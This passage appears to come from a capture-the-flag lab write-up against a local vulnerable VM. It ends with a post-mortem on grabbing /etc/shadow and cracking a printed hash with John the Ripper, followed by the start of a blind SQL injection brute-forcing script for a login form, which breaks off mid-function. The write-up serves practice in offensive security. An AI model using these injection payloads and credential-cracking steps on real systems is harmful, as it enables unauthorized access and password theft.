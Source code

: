 ### Post-mortem

Using the new root privileges, I grabbed ```/etc/shadow``` and exfil'd the data for hash-cracking. The idea being that once I have john's creds I can login to mysql and grab everyone elses passwords from the database. 

passwords.txt

```
john:x:500:500::/home/john:/bin/bash
```

shadow.txt

```
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
```

```
unshadow passwords.txt shadow.txt > cracked.txt
john cracked.txt
```

I haven't performed this yet, as my laptop is a little slow for hash-cracking but it can be left as an exercise to the reader ;)

-coastal

### blind_sqli.py

```python
import sys
import requests

chars = "abcdefghijklmnopqrstuvwxyz01234567890.()<>*^%$@!"
target = "192.168.56.101"
url = "http://192.168.56.101/index.php"
port = 80
fail_string = "Remote System"

def injection_assembler(injection):
	
	return url

def brute_force_field_value(field):
	result = ""
	length_of_field = get_field_length(field)
	for x in range(1, length_of_field + 1):
		print ("[*] Injecting for character in position {}".format(x))
		for char in chars:
			#print ("[*] Trying char {}".format(char))
			# ' or 1=1 && substring("test",1,1)=char(116) #
			injection = """' or 1=1 && substring({},{},1)=char({}) #""".format(field, x, ord(char))
			post_data = {
				"uname": injection,
				"psw": "test"
			}
			r = requests.request("POST", url=url, data=post_data)

			if injection_success(r):
				print ("\t[+] Found character {}: {}".format(x, char))
				result += char

	print ("[+] Bruted value of {}: {}".format(field, result))

def get_field_length(field):
	for x in range(0, 200):
		#' or 1=1 && char_length("test")=4 #
```